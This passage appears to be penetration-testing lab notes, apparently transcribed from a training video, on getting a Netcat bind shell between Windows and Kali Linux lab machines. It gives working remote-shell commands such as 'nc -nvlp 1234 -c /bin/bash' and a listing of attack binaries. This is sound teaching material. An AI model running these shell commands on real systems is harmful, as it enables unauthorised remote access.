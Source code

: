 Netcat connected and the cmd.exe is executed and we have now gained access to the target system remotely via a bind shell.

```
C:\Users\Administrator\Downloads>whoami
```

We are currently the administrator user.

```
C:\Users\Administrator\Downloads>dir
```

What we've just done from a penetration tester's point of view is we have obtained remote access to the target system via a bind shell.

This can also be done both ways in that you can actually connect to a Linux system and obtain an bash shell or a Bourne shell if you wanted to.

We are just going to flip the roles now, so the Windows system is going to be the attacker system, and the Kali Linux system is going to be target system.

On a Linux target, you would need to set up a listener with Netcat. However, instead of saying execute, we can use `-c` option. `-c` to execute a shell. And then we specify the shell that we would like executed once a client connects.

nc -nvlp listen on port 1234 and execute the following shell. And this option is reserved for Linux system.

```
nc -nvlp 1234 -c /bin/bash
```

On the Windows system, we're connecting to the listener, 

```
C:\Users\Administrator\Downloads>nc.exe -nv 10.10.3.2 1234
```

It looks like we've obtained a bash session.

```
ls
```

And indeed, we have obtained remote access to the Linux system.

```
id
```

That is how to obtain remote access on a target system via a bind shell.

# 复现视频内容
Windows Server 2012 R2 : 10.0.24.157

Kali Linux : 10.10.21.3 

```
root@attackdefense:~# cd /usr/share/windows-binaries
root@attackdefense:/usr/share/windows-binaries# ls -al
total 1884
drwxr-xr-x  7 root root   4096 Feb 19  2020 .
drwxr-xr-x 16 root root   4096 Feb 19  2020 ..
drwxr-xr-x  2 root root   4096 Feb 19  2020 enumplus
-rwxr-xr-x  1 root root  53248 Jul 17  2019 exe2bat.exe
drwxr-xr-x  2 root root   4096 Feb 19  2020 fgdump
drwxr-xr-x  2 root root   4096 Feb 19  2020 fport
-rwxr-xr-x  1 root root  23552 Jul 17  2019 klogger.exe
drwxr-xr-x  2 root root   4096 Feb 19  2020 mbenum
drwxr-xr-x  4 root root   4096 Feb 19  2020 nbtenum
-rwxr-xr-x  1 root root  59392 Jul 17  2019 nc.exe
-rwxr-xr-x  1 root root 311296 Jul 17  2019 plink.exe
```